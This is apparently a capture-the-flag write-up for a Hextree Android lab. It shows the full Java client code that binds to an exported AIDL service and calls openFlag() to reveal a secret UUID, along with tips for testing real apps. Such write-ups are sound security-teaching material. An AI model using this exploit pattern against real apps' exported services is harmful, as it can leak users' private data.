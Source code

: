 ```yaml
---
layout: post
title: Flag28Service AIDL Binding Walkthrough (Hextree Lab)
categories: android
description: A step-by-step guide to reverse engineering and exploiting an exported Android AIDL-based bound Service from another app.
summary: A step-by-step guide to reverse engineering and exploiting an exported Android AIDL-based bound Service from another app.
date: 2025-06-15  
tags:
- android  
- aidl  
- binder  
- reverse engineering 
- inter-process communication 
- hextree  
- penetration testing  
- android security  
read_time: 3 minute read
pin: false
comments: true
toc: true
---
```


# Flag28Service AIDL Binding Walkthrough (Hextree Lab)

## 📌 Lab Objective

The goal of this Hextree challenge is to interact with an **exported bound Android service** (`Flag28Service`) from a different app (our attacking app) by leveraging **AIDL (Android Interface Definition Language)**. Once the AIDL interface is properly bound and invoked, a flag activity is launched containing a secret UUID.

---

## 🔍 Reconnaissance

Inspecting the AndroidManifest of the target app, we find this service:

```xml
<service
    android:name="io.hextree.attacksurface.services.Flag28Service"
    android:enabled="true"
    android:exported="true"/>
````

✅ The `android:exported="true"` line means any app on the device can bind to this service — if it knows how.

---

## 🧠 Understanding the Service Code

Here’s what `Flag28Service.java` does:

```java
public class Flag28Service extends Service {
    public static String secret = UUID.randomUUID().toString();
    private final IFlag28Interface.Stub binder = new IFlag28Interface.Stub() {
        @Override
        public boolean openFlag() throws RemoteException {
            return success();
        }

        public boolean success() {
            Intent intent = new Intent();
            intent.setClass(Flag28Service.this, Flag28Activity.class);
            intent.putExtra("secret", Flag28Service.secret);
            intent.addFlags(268468224);
            intent.putExtra("hideIntent", true);
            Flag28Service.this.startActivity(intent);
            return true;
        }
    };

    @Override
    public IBinder onBind(Intent intent) {
        Log.i("Flag28Service", Utils.dumpIntent(this, intent));
        return this.binder;
    }
}
```

* When `openFlag()` is called, it launches `Flag28Activity` with the `secret` in the intent.
* That function is exposed via **AIDL**.

---

## 🔧 Step-by-Step Exploit via AIDL

### 1. 🔎 Get the AIDL Definition

From decompiled code, we extract the AIDL interface:

```java
package io.hextree.attacksurface.services;

interface IFlag28Interface {
    boolean openFlag();
}
```

Create this file in your client app:

```
app/src/main/aidl/io/hextree/attacksurface/services/IFlag28Interface.aidl
```

> 📚 [AIDL Documentation](https://developer.android.com/guide/components/aidl)

Then rebuild the project. This will generate a stub interface your app can use to call the service.

### 2. 🏗️ Create a Client App to Bind to the Service

No special permission is needed to bind to exported services.

#### `HextreeActivity.java`

```java
public class HextreeActivity extends AppCompatActivity {
    boolean isBound = false;
    IFlag28Interface remoteservice;

    ServiceConnection connection = new ServiceConnection() {
        public void onServiceConnected(ComponentName name, IBinder service) {
            remoteservice = IFlag28Interface.Stub.asInterface(service);
            isBound = true;
            sendMessageToService();
        }

        public void onServiceDisconnected(ComponentName name) {
            isBound = false;
            remoteservice = null;
        }
    };

    public void sendMessageToService() {
        if (!isBound) return;
        try {
            remoteservice.openFlag();
        } catch (RemoteException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button attackButton = findViewById(R.id.attack);
        attackButton.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag28Service");
            bindService(intent, connection, Context.BIND_AUTO_CREATE);
        });
    }

    @Override
    protected void onDestroy() {
        if (isBound) {
            unbindService(connection);
            isBound = false;
        }
        super.onDestroy();
    }
}
```

#### Layout: `activity_main.xml`

```xml
<Button
    android:id="@+id/attack"
    android:layout_width="wrap_content"
    android:layout_height="wrap_content"
    android:text="Launch Flag Service" />
```

---

## 🧪 Testing the Attack

1. Install the vulnerable target app.
2. Install and run your client app.
3. Tap the button → it binds to the service.
4. Calls `openFlag()` → starts `Flag28Activity` with the flag.

🎉 You now have access to the secret UUID stored statically in the service.

---

## 🔐 Why This Works

* **AIDL** enables IPC in Android. If a service is exported and implements an AIDL interface, **any app can use it** — as long as it has the correct `.aidl` definition.
* The Binder framework ensures capability-based access, so possession of the IBinder gives you the power to call the methods.

---

## 📚 Resources

* [Android AIDL Guide](https://developer.android.com/guide/components/aidl)
* [Binder Internals (Google)](https://android.googlesource.com/platform/frameworks/native/+/refs/heads/main/cmds/servicemanager/README.md)
* [Binder IPC Deep Dive](https://dev.to/paulshen/android-ipc-binder-introduction-1e4c)
* Hextree CTF Labs – Android IPC + Reverse Engineering Challenges

---

## 🧠 Notes for Real-World Testing

* Always check for `exported=true` in the target app's `AndroidManifest.xml`.
* Decompile APKs using tools like jadx or apktool to extract `.aidl` files.
* Verify if the service performs security checks (e.g., caller package, signature).

---

## ✅ Summary

This lab demonstrates how exported AIDL-based services can become attack surfaces. By reverse engineering the `.aidl`, replicating it, and binding from your own app, you can trigger privileged flows like opening hidden activities or leaking secrets — all by using Binder IPC correctly.

> The power of Android IPC becomes a vulnerability when misconfigured.